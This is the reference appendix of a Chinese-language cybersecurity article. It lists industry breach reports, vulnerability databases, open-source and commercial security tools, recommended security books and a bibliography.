### 权威数据来源

1. **IBM Security - Cost of a Data Breach Report 2024**
   - 网址：https://www.ibm.com/reports/data-breach
   - 要点：全球数据泄露平均成本$4.88M，创历史新高

2. **Verizon - Data Breach Investigations Report (DBIR) 2025**
   - 网址：https://www.verizon.com/dbir/
   - 要点：74%的泄露涉及人为因素，81%涉及弱口令

3. **Sonatype - State of the Software Supply Chain Report 2024**
   - 网址：https://www.sonatype.com/state-of-software-supply-chain-report
   - 要点：68%的项目有已知漏洞依赖

4. **Flexera - 2024 State of IT Report**
   - 网址：https://www.flexera.com/about/state-of-it-report/
   - 要点：企业平均需12天部署关键补丁

5. **ISC² - Cybersecurity Workforce Study 2025**
   - 网址：https://www.isc2.org/research
   - 要点：全球网络安全人才缺口达400万

6. **IBM Cost of a Data Breach Report 2024**
   - 网址：https://www.ibm.com/reports/data-breach
   - 要点：全球平均泄露成本$4.88M，医疗行业最高$9.77M

7. **Verizon - Data Breach Investigations Report (DBIR) 2025**
   - 网址：https://www.verizon.com/dbir/
   - 要点：74%涉及人为因素，83%的泄露事件涉及外部攻击者

8. **OWASP - Top 10 Web Application Security Risks (2021)**
   - 网址：https://owasp.org/www-project-top-ten/
   - 要点：目前最广泛采用的Web应用安全风险排名

9. **NIST - Cybersecurity Framework (CSF) 2.0**
   - 网址：https://www.nist.gov/cyberframework
   - 要点：权威的网络安全框架指南

10. **Gartner - Market Guide for Data Security Platforms**
    - 网址：https://www.gartner.com/
    - 要点：数据安全平台市场趋势和选型指南

11. **IDC - Global DataSphere Forecast 2025**
    - 网址：https://www.idc.com/
    - 要点：全球数据总量达175ZB

### 技术资源

**学习漏洞分析：**
- CVE Details: https://www.cvedetails.com/
- National Vulnerability Database (NVD): https://nvd.nist.gov/
- Exploit Database: https://www.exploit-db.com/

**安全工具推荐：**
- OWASP ZAP（Web应用扫描）：https://www.zaproxy.org/
- Metasploit Framework（渗透测试）：https://www.metasploit.com/
- Wireshark（网络分析）：https://www.wireshark.org/

**安全标准与框架：**
- NIST Cybersecurity Framework: https://www.nist.gov/cyberframework
- CIS Controls: https://www.cisecurity.org/controls
- ISO 27001: https://www.iso.org/isoiec-27001-information-security.html

### 推荐阅读

**技术深度类：**
- 《RTFM: Red Team Field Manual》（红队手册）
- 《Blue Team Handbook: SOC, SIEM, and Threat Hunting》by Don Murdoch（蓝队手册）
- 《Security Engineering》by Ross Anderson（安全工程圣经）
- 《The Web Application Hacker's Handbook》by Dafydd Stuttard（Web安全）
- 《Threat Modeling: Designing for Security》by Adam Shostack（威胁建模）

**架构设计类：**
- **《Zero Trust Networks: Building Secure Systems in Untrusted Networks》** by Evan Gilman & Doug Barth
- 《Secure by Design》by Dan Bergh Johnsson et al.
- 《DevSecOps: Securing Developer Workflows》by Julian Wood

**管理与文化类：**
- 《Secrets and Lies: Digital Security in a Networked World》by Bruce Schneier
- 《The Phoenix Project》by Gene Kim et al.（DevOps和安全）
- **《Building Secure and Reliable Systems》**（Google SRE 系列图书，安全主题）
- *Sandworm: A New Era of Cyberwarfare and the Hunt for the Kremlin's Most Dangerous Hackers* by Andy Greenberg
- *This Is How They Tell Me the World Ends: The Cyberweapons Arms Race* by Nicole Perlroth

### 实用工具和平台

**开源安全工具：**
- OWASP ZAP（Web应用扫描）：https://www.zaproxy.org/
- Metasploit Framework（渗透测试）：https://www.metasploit.com/
- Wireshark（网络协议分析）：https://www.wireshark.org/
- Snort/Suricata（IDS/IPS）：https://www.snort.org/
- OSSEC（主机入侵检测）：https://ossec.net/

**商业安全平台（供参考）：**
- SIEM: Splunk, Microsoft Sentinel, Sumo Logic
- EDR/XDR: CrowdStrike Falcon, Microsoft Defender XDR, SentinelOne
- CSPM: Wiz, Prisma Cloud, Orca Security
- PAM: CyberArk, BeyondTrust, HashiCorp Boundary
- DLP: Symantec DLP, Forcepoint DLP, Digital Guardian

---

## 参考文献

[1] IBM Security. (2024). *Cost of a Data Breach Report 2024*. https://www.ibm.com/reports/data-breach

[2] Verizon. (2025). *Data Breach Investigations Report (DBIR) 2025*. https://www.verizon.com/dbir/

[3] Flexera. (2024). *2024 State of IT Report*. https://www.flexera.com/about/state-of-it-report/

[4] Sonatype. (2024). *State of the Software Supply Chain Report 2024*. https://www.sonatype.com/state-of-software-supply-chain-report

[5] ISC². (2025). *Cybersecurity Workforce Study 2025*. https://www.isc2.org/research

[6] Apache Software Foundation. (2017). *Security Bulletin for Apache Struts (S2-045)*. https://cwiki.apache.org/confluence/display/WW/S2-045

[7] U.S. Securities and Exchange Commission. (2019). *SEC Charges Former Equifax Executives with Insider Trading*. https://www.sec.gov/news/press-release/2019-198

[8] Federal Trade Commission. (2019). *Equifax to Pay Up to $700 Million in Data Security Breach Settlement*. https://www.ftc.gov/news-events/press-releases/2019/07/equifax-pay-700-million-data-security-breach-settlement

[9] IDC. (2025). *Global DataSphere Forecast, 2024-2028*. https://www.idc.com/

[10] Ponemon Institute. (2024). *Cost of a Data Breach Report: Global Analysis*. https://ponemon-institute.com/

[11] Cybersecurity & Infrastructure Security Agency (CISA). (2024). *Cross-Sector Cybersecurity Performance Goals (CPGs)*. https://www.cisa.gov/cpgs

[12] OWASP Foundation. (2021). *OWASP Top Ten Web Application Security Risks*. https://owasp.org/www-project-top-ten/

[13] NIST. (2024). *Cybersecurity Framework 2.0*. https://www.nist.gov/cyberframework

[14] Gartner, Inc. (2024). *Market Guide for Data Security Platforms*. https://www.gartner.com/en/documents/4007896

---

*本文最后更新：2026年6月*
*本文档基于公开资料整理*
*字数统计：约19700字*
*图表数量：4张Mermaid图表*
